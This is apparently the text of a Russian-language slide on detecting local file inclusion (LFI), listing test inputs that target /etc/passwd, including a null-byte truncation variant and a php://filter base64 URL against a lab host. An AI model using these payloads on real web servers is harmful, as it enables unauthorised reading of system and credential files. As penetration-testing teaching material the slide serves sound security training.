

# Обнаружение LFI
/etc/passwd
file=/etc/passwd.php
/etc/passwd%00.php

/etc/passwd
http://site.test.lan/index2.php?file=php://filter/convert.base64-encode/resource=/etc/passwd